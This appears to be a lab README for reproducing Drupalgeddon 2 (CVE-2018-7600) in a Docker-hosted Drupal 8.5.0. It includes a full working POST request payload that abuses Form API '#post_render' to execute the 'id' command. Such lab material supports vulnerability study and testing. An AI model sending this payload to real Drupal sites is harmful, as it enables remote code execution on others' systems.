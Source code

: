 # Drupal Drupalgeddon 2 Remote Code Execution Vulnerability (CVE-2018-7600)

[中文版本(Chinese version)](README.zh-cn.md)

Drupal before 7.58, 8.x before 8.3.9, 8.4.x before 8.4.6, and 8.5.x before 8.5.1 allows remote attackers to execute arbitrary code because of an issue affecting multiple subsystems with default or common module configurations including the Form API.

References:

- https://research.checkpoint.com/uncovering-drupalgeddon-2/

## Vulnerable environment

Run the following command to start a vulnerable Drupal 8.5.0 environment:

```
docker-compose up -d
```

After the environment is started, visit `http://your-ip:8080/` and you will see the drupal installation page. Complete the drupal installation using the "standard" profile. Because there is no mysql environment, you should select sqlite database when installing. Once the installation is complete you are ready to start exploiting it.

## Exploit

Referring to [a2u/CVE-2018-7600](https://github.com/a2u/CVE-2018-7600/blob/master/exploit.py), we can send the following request to drupal:

```
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 103

form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id
```

Upon successful execution of the code, the id command is executed:

![](1.png)
